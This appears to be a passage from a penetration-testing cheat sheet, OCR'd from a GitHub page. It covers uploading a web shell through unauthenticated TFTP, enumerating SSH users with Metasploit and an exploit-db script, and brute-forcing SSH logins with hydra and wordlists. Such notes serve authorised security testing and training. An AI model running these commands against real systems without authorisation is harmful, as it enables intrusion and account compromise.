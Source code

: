 ### TFTP

If unauthenticated access is allowed with write permissions you can upload a shell:

```text
tftp $ip
tftp> ls
?Invalid command
tftp> verbose
Verbose mode on.
tftp> put shell.php
Sent 3605 bytes in 0.0 seconds [inf bits/sec]
```

```
nmap -sU -p 69 --script tftp-enum.nse $ip 
```

or

```text
use auxiliary/scanner/tftp/tftpbrute
```

`connecting/interacting:   
tftp $ip  
tftp> put payload.exe   
tftp> get file.txt`

## SSH

#### User enumeration

```text
use auxiliary/scanner/ssh/ssh_enumusers
set user_file /usr/share/wordlists/metasploit/unix_users.txt
or
set user_file /usr/share/seclists/Usernames/Names/names.txt
run
```

```text
python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $ip
```

#### Bruteforce

```text
hydra -v -V -l root -P password-file.txt $ip ssh
```

#### With list of users:

```text
hydra -v -V -L user.txt -P /usr/share/wordlists/rockyou.txt -t 16 192.168.33.251 ssh
```
